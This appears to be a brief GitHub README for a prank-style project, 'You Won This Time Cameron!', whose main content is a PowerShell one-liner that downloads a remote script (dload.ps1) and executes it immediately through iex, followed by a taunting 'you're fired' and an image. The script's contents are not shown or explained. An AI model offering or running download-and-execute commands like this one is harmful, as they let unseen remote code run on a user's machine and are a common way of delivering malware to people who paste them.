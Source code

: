 # YWTTC = You Won This Time Cameron!
#### But we all know who's gonna be the ultimate winner!!
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/dload.ps1'))
```

Also, you're fired!
<p align="center">
  <img src="https://github.com/Refr3sh/YWTTC/raw/main/Pic/download.jpg" />
</p>

